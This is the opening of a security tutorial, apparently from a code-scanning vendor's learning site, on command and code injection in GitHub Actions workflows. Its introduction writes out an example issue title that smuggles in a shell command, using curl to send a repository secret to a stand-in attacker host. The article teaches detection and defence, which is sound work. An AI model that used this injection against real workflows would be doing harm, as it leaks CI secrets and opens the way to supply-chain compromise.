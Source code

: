 ```yaml
---
title: Command Injection in GitHub Actions
description: Learn about GitHub Action Injection vulnerabilities
hide_title: false
displayed_sidebar: learnSidebar
slug: /learn/vulnerabilities/command-injection/github-actions-injection
tags:
  - command-injection
---
```



# Injection Attacks in GitHub Actions

A user opens a GitHub issue titled `"; curl http://attacker.site?token=${{ secrets.SERVICE_SECRET }}; x="`, and a few seconds later, your GitHub Actions runner silently executes it. Just like that, a secret is exfiltrated. This isn’t hypothetical—this is a textbook example of [command injection](overview) in GitHub Actions.

Modern CI/CD pipelines like GitHub Actions automate everything from testing and building to deploying production code. But when workflows are written insecurely, they can become an attacker’s playground. This risk is especially relevant when user-supplied data flows directly into commands or scripts.

There are also potential for [code injection](../code-injection/overview) where instead of executing a command, source code is included in the configuration to run. So both command and code injection have a common security vulnerability theme, untrusted user input including in GitHub Actions workflows can lead to exfiltrating tokens, compromising infrastructure, or creating releases to distribute malware.

In this article, we’ll break down how command and code injection can happen in GitHub Actions, explore common attack patterns, show how to detect it in code, and end with practical advice to avoid these issues in your own workflows.

## GitHub Actions Fundamentals

GitHub Actions is a CI/CD platform built directly into GitHub. At its core, a workflow is defined in a YAML file located in the `.github/workflows/` directory of a repository. Each workflow is made up of jobs, and each job typically has a *runner* which provides services to execute the job typically in a container environment. Jobs may contain multiple *steps*, which run shell commands, execute scripts, or trigger external actions. 

A typical example might look like this:

```yaml
on: pull_request
name: my-workflow
jobs:
  my_job:
    runs-on: ubuntu-latest
    steps:
      - run: echo "Hello Semgrep!"
```
